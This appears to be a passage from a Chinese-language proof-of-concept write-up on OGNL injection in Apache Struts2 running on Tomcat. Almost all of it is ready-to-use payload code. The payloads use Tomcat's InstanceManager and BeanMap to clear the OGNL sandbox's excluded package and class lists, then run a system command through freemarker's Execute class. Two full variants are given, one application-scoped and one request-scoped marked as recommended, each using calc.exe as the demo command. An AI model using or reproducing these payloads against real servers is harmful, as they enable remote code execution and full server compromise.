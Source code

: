 执行shell的ognl代码

```
#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'})
```

 

## 完整POC

### 使用application，就是上面思路的完整POC

```
%{
(#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#application.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 

(#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#application.map2.setBean(#application.get('map').get('context')) == true).toString().substring(0,0) + 


(#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#application.map3.setBean(#application.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 

(#application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
}
```

### 使用request，单次请求有效的完整POC (推荐)

```
%{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 

(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 


(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 

(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
}
```